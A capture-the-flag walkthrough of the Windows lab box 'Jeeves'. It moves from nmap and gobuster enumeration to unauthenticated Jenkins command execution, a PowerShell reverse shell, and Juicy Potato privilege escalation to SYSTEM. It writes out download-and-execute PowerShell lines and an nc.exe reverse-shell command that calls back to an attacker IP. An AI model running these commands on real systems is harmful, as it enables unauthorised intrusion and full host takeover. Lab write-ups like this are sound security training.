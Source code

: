 # Jeeves

## Reconnaissance <a href="#491d" id="491d"></a>

First we want to run a initial nmap scan to see what ports are open and what services are on those ports.

```hcl
nmap -sC -sV -oA nmap/init 10.129.174.184
```

* **-sC**: run default nmap scripts
* **-sV**: detect service version
* **-oA**: output all formats to _nmap/initial_

We get back the following information:

{% code title="init.nmap" %}
```hcl
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-23 20:19 EDT
Nmap scan report for 10.129.174.184
Host is up (0.034s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-title: Ask Jeeves
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-03-24T05:19:57
|_  start_date: 2022-03-24T05:08:21
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 4h59m58s, deviation: 0s, median: 4h59m57s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.19 secondshcl
```
{% endcode %}

## Enumeration

### Passive Enumeration

#### IIS Directory Enumeration

```bash
gobuster dir -u http://10.129.174.184 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o iis.txt
```

#### Jetty Directory Enumeration

```
gobuster dir -u http://10.129.174.184:50000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o iis.txt
```

### Active Enumeration

#### Exploring IIS

Looking at the http site we are presented with a search bar

![](<../../../.gitbook/assets/image (15).png>)

Searching takes you to error.html which turns out to just be an image

![error.html](<../../../.gitbook/assets/image (17).png>)

Source code for site, the action results in error.html

```html
<!DOCTYPE html>
<html>
<head>
<title>Ask Jeeves</title>
<link rel="stylesheet" type="text/css" href="style.css">
</head>

<body>
<form class="form-wrapper cf" action="error.html">
    <div class="byline"><p><a href="#">Web</a>, <a href="#">images</a>, <a href="#">news</a>, and <a href="#">lots of answers</a>.</p></div>
  	<input type="text" placeholder="Search here..." required>
	  <button type="submit">Search</button>
    <div class="byline-bot">Skins</div>
</form>
</body>

</html>
```

#### Exploring Jetty

Quickly checking gobuster for jetty shows that we have a directory to check out

![/askjeeves](<../../../.gitbook/assets/image (16).png>)

Going there we see Jenkins!

![Jenkins](<../../../.gitbook/assets/image (24).png>)

Turns out we have command execution without needing to be logged in which works in our favor

![](<../../../.gitbook/assets/image (7).png>)

## Initial Access

Using Nishang Invoke-PowerShellTcp.ps1 script we can create a reverse shell and get access to the box

{% embed url="https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1" %}

First we want to copy the example to the bottom of the script so that it is run when copied to the machine we are attacking

![](<../../../.gitbook/assets/image (10).png>)

![](<../../../.gitbook/assets/image (6).png>)

Next we want to get a web server running and a netcat listener to catch the reverse shell. In this se I am using [updog](https://github.com/sc0tfree/updog) for my simple web server.

![](<../../../.gitbook/assets/image (12).png>)

Using the script console again I run this command to download and execute the invoke powershell tcp reverse shell script

![](<../../../.gitbook/assets/image (3).png>)

And we get a shell back!

![](<../../../.gitbook/assets/image (14).png>)

This allows us to get user.txt!

## Privilege Escalation

### Juicy Potato

Next we want to run PowerUp.ps1 however we want to use the dev branch as it has extra checks

{% embed url="https://github.com/PowerShellMafia/PowerSploit/tree/dev" %}

![](<../../../.gitbook/assets/image (13).png>)

Then we want to run these commands in our reverse shell

```powershell
IEX(New-Object Net.WebCLient).downloadString('http://10.10.14.92/PowerUp.ps1')
Invoke-AllChecks # This runs the powershell function to check everything
```

![](<../../../.gitbook/assets/image (2).png>)

Right away we see SeImpersonatePrivilege which means this box is vulnerable to Juicy Potato!

{% embed url="https://github.com/ohpe/juicy-potato" %}

We first need to download JuicyPotato.exe to the box which I am hosting from my kali box

![](<../../../.gitbook/assets/image (22).png>)

We need to copy kali's nc.exe to the windows box

```powershell
# nc.exe is located /usr/share/windows-resources/binaries/nc.exe on kali
Invoke-WebRequest "http://10.10.14.92/nc.exe" -OutFile "nc.exe"
```

![](<../../../.gitbook/assets/image (8).png>)

Next we want to run JuicyPotato!

This is the input I used:

* **-t: \***
* **-p:** c:\windows\system32\cmd.exe
* **-a:** "/c c:\users\kohsuke\desktop\nc.exe -e cmd.exe 10.10.14.92 9001"
* **-l:** 9001

```powershell
cmd /c jp.exe -l 9001 -p c:\windows\system32\cmd.exe -a "/c c:\users\kohsuke\desktop\nc.exe -e cmd.exe 10.10.14.92 9001" -t *
```

![Got a shell](<../../../.gitbook/assets/image (23).png>)

We got nt authority\system!&#x20;

When we try and take a look at the administrators desktop we see hm.txt with an interesting message

![](<../../../.gitbook/assets/image (5).png>)

Then I tried this

![Alternate Data Streams](<../../../.gitbook/assets/image (9).png>)

Alternate Data Streams, find more about them here

{% embed url="https://owasp.org/www-community/attacks/Windows_alternate_data_stream" %}

<details>

<summary>We can direct this into more and get the flag</summary>

```
C:\Users\Administrator\Desktop>more < hm.txt:root.txt
more < hm.txt:root.txt
afbc5bd4b615a606 # Only first 16 bytes of hash shown
```

</details>

## Lessons Learned

